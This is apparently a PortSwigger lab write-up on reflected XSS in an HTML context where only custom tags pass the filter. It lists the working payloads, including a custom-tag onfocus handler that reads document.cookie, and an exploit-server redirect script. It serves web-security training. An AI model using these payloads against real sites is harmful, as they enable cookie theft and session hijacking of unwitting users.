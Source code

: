 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

```bash
# Search

<img src=0 onerror=alert()>

Result: "Tag is not allowed"
```
```bash
<custom-tag>

# You won't see custom-tag but when you inspect the result you will find
<custom-tag>'</custom-tag>
# inside the html code. So we can use <custom-tag>
```

```bash
<custom-tag onmouseover=alert("a")>

# If you use this and move your mouse over result you will get alert.

<custom-tag onmouseover=alert(document.cookie)>

# This doesn't solve the lab because it is not automatically alerts.
```
```bash
<custom-tag onfocus=alert(document.cookie) id='a' tabindex='1'>

# web-security-academy.net/?search=<custom-tag+onfocus%3Dalert(document.cookie)+id%3D'a'+tabindex%3D'1'> add #a to our link.
# And now we can see automated attack.
```

```bash
# Go to exploit server
<script>
location='https://0ac300e4037ef235801a2663000300c3.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3Dalert(document.cookie)+id%3D%27a%27+tabindex%3D%271%27%3E#a' 
</script>

# You have to put it inside script. The script tag is used to embed JavaScript code in HTML.
# onfocus=alert(document.cookie) means that when the element gains focus, it triggers an alert displaying the document's cookies.
# id='a' and tabindex='1' are additional attributes for the element.
```
